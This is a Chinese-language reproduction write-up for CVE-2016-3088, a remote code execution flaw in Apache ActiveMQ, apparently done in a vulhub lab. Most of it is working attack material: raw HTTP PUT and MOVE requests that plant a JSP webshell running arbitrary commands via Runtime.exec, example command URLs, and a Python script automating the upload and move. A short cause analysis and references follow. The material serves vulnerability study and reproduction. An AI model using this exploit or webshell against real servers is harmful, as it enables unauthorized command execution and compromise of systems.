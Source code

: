 # CVE-2016-3088(Apache ActiveMQ 远程代码执行漏洞复现)

## 复现环境
#### 靶机：
* IP：192.168.1.104:8161

## 复现过程
Fiddler发包：
```
PUT http://192.168.1.104:8161/fileserver/cytotest.txt HTTP/1.1
Host: 192.168.1.104:8161
Content-Length: 353

<%@ page import="java.io.*"%>

<%
  out.print("Cytosine Test<br>");

  String strcmd = request.getParameter("cmd");
  String line = null;

  Process p = Runtime.getRuntime().exec(strcmd);
  BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));

  while((line=br.readLine())!=null){
    out.print(line+"<br>");
  }
%>

```
响应：
```
HTTP/1.1 204 No Content
Server: Jetty(8.1.16.v20140903)

```

移动并更名：
```
MOVE http://192.168.1.104:8161/fileserver/cytotest.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/cytotest.jsp
Host: 192.168.1.104:8161
Content-Length: 2

```

响应：
```
HTTP/1.1 204 No Content
Server: Jetty(8.1.16.v20140903)

```

浏览器get request：
```
http://192.168.1.104:8161/api/b.jsp?cmd=whoami
http://192.168.1.104:8161/api/b.jsp?cmd=ls -al
```
效果如下图：
![](imgs/whoami.png)
![](imgs/ls.png)

## 原因分析
ActiveMQ的FileServer允许用户通过PUT方法上传文件到指定目录（但此目录没有执行权限）  
同时处理HTTP MOVE方法的代码没有对目的路径做过滤  
因此，可以通过PUT请求上传一个webshell，然后再通过MOVE方法将webshell移动至有执行权限的目录中。

## exp
自己太菜，如果从主机发现开始写，就写不完了，所以就把上面两步封装了一下  
代码如下：
```
import requests


def main():
    Hosts = ['192.168.1.104:8161']

    for host in Hosts:
        # put request
        url_put = 'http://' + host + '/fileserver/cytotest.txt'
        data_put = """
        <%@ page import="java.io.*"%>
    
        <%
          out.print("Cytosine Test<br>");
    
          String strcmd = request.getParameter("cmd");
          String line = null;
    
          Process p = Runtime.getRuntime().exec(strcmd);
          BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
    
          while((line=br.readLine())!=null){
            out.print(line+"<br>");
          }
        %>
        """
        headers_put = {'Host': '192.168.1.104:8161'}

        response_put = requests.put(url=url_put, data=data_put, headers=headers_put)

        if response_put.status_code == 204:
            # move request
            url_move = 'http://' + host + '/fileserver/cytotest.txt'
            headers_move = {'Destination': 'file:///opt/activemq/webapps/api/cytotest.jsp',
                            'Host': '192.168.1.104:8161'}

            response_move = requests.request('MOVE', url_move, headers=headers_move)

            if response_move.status_code == 204:
                print("写入成功，访问如下链接，'cmd='后面加命令即可：")
                print("http://" + host + "/api/cytotest.jsp?cmd=")
                print("For example:http://" + host + "/api/cytotest.jsp?cmd=whoami")
                # # shell
                # userInput = input('$ ')
                # params_get = {'cmd':userInput}
                # headers_get = {'Authorization':'Basic YWRtaW46YWRtaW4='}
                # r_get = requests.get('http://' + host + '/api/cytotest.jsp',params=params_get)
                #
                # bodyStart = re.match()
                #
                # print(r_get.text)
                #
                # 发现返回401 抓包没发现admin admin怎么传过去的 所以先都注释了吧喵 QAQ


if __name__ == '__main__':
    main()

```

## 参考资料
1. [Apache ActiveMQ Fileserver远程代码执行漏洞(CVE-2016-3088)_Seebug](https://www.seebug.org/vuldb/ssvid-96268)
2. [valhub CVE-2016-3088 _GitHub](https://github.com/vulhub/vulhub/tree/master/activemq/CVE-2016-3088)
3. [Python Requests Interface Document_python-requests](http://docs.python-requests.org/en/master/api/)
